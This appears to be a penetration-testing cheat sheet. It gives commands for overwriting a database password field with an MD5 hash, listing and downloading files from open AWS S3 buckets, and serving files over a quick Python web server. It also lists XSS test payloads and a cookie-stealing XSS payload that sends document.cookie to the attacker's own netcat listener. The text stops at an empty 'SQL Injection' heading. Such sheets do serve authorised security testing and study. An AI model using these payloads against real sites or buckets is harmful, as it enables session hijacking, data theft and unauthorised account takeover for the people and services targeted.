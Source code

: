 ### Update Datase Password Hash
```
echo -n "password" | md5sum
5f4dcc3b5aa765d61d8327deb882cf99

mysql> UPDATE {TABLE} SET {FIELD}='5f4dcc3b5aa765d61d8327deb882cf99' WHERE ID={ID};
```

# AWS S3

### List Bucket Files
```
curl {BUCKET_NAME}.s3.amazonaws.com | xmllint --format -
```

### Download File
```
curl {BUCKET_NAME}.s3.amazonaws.com/{FILE}
```

# WEB Server

```
# Server up in current directory
python -m SimpleHTTPServer 8080
python -m http.server 8080

# GET
wget http://{TARGET}:{PORT}/{URI}
curl http://{TARGET}:{PORT}/{URI}
```

# XSS

### Validation
```
<script>alert('XSS Works')</script>
</p><script>console.log("XSS Works")</script><p>
<img src=x onerror=alert('XSS Works')>
```

### Acquiring Cookies
```
nc -lvnp 80
</p><script>window.location = 'http://{LOCAL_IP}/page?param=' + document.cookie </script><p>
```

# SQL Injection
